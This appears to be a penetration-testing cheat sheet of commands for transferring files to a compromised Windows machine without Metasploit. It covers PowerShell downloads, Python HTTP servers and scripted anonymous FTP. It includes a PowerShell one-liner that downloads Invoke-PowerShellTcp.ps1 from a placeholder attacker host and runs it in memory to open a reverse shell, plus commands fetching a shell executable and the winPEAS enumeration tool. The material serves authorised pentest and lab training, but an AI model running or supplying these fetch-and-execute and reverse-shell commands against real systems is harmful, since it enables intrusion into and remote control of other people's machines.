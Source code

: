 ## Windows

### Transferring Files Without Metasploit

#### Powershell

Download files with powershell

```powershell
powershell -c "Invoke-WebRequest -uri 'http://Your-IP:Your-Port/winPEAS.bat' -OutFile 'C:\Windows\Temp\winPEAS.bat'"
```

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
```

Creating a server with python3

```shell
python -m http.server
```

Creating a server with python2

```shell
python -m SimpleHTTPServer 80
```

#### FTP

You need to create a FTP server

* Server Linux
Allow anonymous

```shell
python -m pyftpdlib -p 21 -u anonymous -P anonymous
```

* Windows Client

```shell
ftp
open target_ip port
open 192.168.1.22 21
```

we can simply run ftp -s:ftp_commands.txt and we can download a file with no user interaction.

like this:

```shell
C:\Users\kitsunesec\Desktop>echo open 10.9.122.8>ftp_commands.txt  
C:\Users\kitsunesec\Desktop>echo anonymous>>ftp_commands.txt  
C:\Users\kitsunesec\Desktop>echo whatever>>ftp_commands.txt
C:\Users\kitsunesec\Desktop>ftp -s:ftp_commands.txt  
```

